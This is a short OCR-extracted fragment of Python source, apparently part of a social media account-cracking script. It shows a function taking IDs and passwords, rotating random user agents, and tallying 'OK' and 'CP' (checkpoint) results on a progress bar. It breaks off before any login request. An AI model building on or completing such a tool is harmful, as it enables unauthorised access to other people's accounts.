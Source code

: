  #-----------------------[ METODE ASYNC ]--------------------# 
 def kontol(idf,pwv): 
         global loop,ok,cp 
         bo = random.choice([m,k,h,b,u,x]) 
         ua = random.choice(ugen) 
         ua2 = random.choice(ugen2) 
         ses = requests.Session() 
         prog.update(des,description=f"[bold green]Async[bold white] {loop}/{len(id)} OK-:[bold green]{ok}[/] CP-:[bold yellow]{cp}[/]") 
         prog.advance(des)  
